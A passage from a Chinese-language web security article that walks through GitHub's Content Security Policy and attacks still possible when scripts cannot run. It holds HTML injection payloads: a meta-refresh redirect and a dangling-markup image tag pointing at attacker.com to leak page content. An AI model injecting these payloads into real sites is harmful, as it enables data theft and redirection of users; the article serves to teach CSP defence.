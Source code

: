 ```
frame-ancestors 'none';

frame-src render.githubusercontent.com;

img-src 'self' data: github.githubassets.com identicons.github.com collector.githubapp.com github-cloud.s3.amazonaws.com
secured-user-images.githubusercontent.com/ *.githubusercontent.com;

manifest-src 'self';

media-src github.com user-images.githubusercontent.com/;

script-src github.githubassets.com;

style-src 'unsafe-inline' github.githubassets.com;

worker-src github.com/socket-worker-3f088aa2.js gist.github.com/socket-worker-3f088aa2.js
```

想要檢查 CSP 規則有沒有明顯漏洞的話，可以到 [CSP Evaluator](https://csp-evaluator.withgoogle.com/)，而 GitHub 的 CSP 設置得很嚴謹，幾乎每一種資源都有設定。

這邊可以看到 script-src 的值只有 `github.githubassets.com`。因為沒有 `unsafe-inline` 的關係，所以 inline script 無法執行，而引入 script 的話也只能從 `github.githubassets.com` 這個來源引入，幾乎封死了執行 script 的路。

而許多網站的 CSP 其實並不會設置得這麼嚴格，就有比較高的機率會被繞過，例如說 [A Wormable XSS on HackMD!](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html) 直接用 cloudflare CDN 上的 AngularJS + CSTI 繞過；[HackMD Stored XSS & Bypass CSP with Google Tag Manager](https://github.com/k1tten/writeups/blob/master/bugbounty_writeup/HackMD_XSS_%26_Bypass_CSP.md) 則是用 Google Tag Manager 來繞。

另外，在某些情境之下就算乍看被封死，依然可以透過現有的 script 來幫你繞過，詳細資訊可以參考這個很經典的演講：[Breaking XSS mitigations via Script gadgets](https://github.com/google/security-research-pocs/tree/master/script-gadgets)。

那如果真的沒辦法執行 script，還有什麼可以做的呢？

就算只是插入 HTML，也還是可以做事的。

例如說可以利用插入 HTML meta tag 來造成重新導向，把使用者導到惡意網站去，像這樣：`<meta http-equiv="refresh" content="0;https://example.com">`。

或者是插入 `<img src="https://attacker.com?q=`（注意這邊 src 的雙引號只有開頭），讓整段 HTML 變成：

``` html
<img src="https://attacker.com?q=
<div>user info</div>
<div>sensitive data</div>
<div class="test"></div>
```

藉由 src 沒有閉合的 `"`，就可以拿到下一個 `"` 為止的 HTML 內容，把這些當作 query string 的一部分傳到 server，而這中間可能就會有一些敏感資料的存在。所以 `img-src` 的 CSP 規則也是有用處的，可以防止這類型的攻擊。

或也可以結合 [DOM Clobbering](https://blog.huli.tw/2021/01/23/dom-clobbering/)，看看有沒有什麼地方可以攻擊。

因此，就算不能執行 script，依然有其他攻擊手法可以用。

